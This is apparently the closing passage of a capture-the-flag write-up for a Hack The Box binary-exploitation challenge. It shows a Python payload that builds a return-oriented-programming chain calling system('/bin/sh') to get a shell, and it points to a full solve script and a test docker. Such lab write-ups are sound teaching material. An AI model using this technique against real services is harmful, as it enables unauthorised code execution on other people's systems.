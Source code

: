 ### Stage 2: Get shell

Struct with payload 0x30, 0x31 and 0x32 remain the same so we just need to pass struct with number 0 to execute system("/bin/sh") to get shell:

```python
payload = b'0000' + b'htb\0' + b'\x003333333'
payload += flat(
	pop_rdi, next(libc.search(b'/bin/sh')),
	libc.sym['system']
)
p.sendafter(b'server!\n', payload)
```

Full script: [solve.py](solve.py)

# 4. Get flag

Because the server closed, I created a docker in zip. You can get shell to test the script.

![get_flag.png](images/get_flag.png)

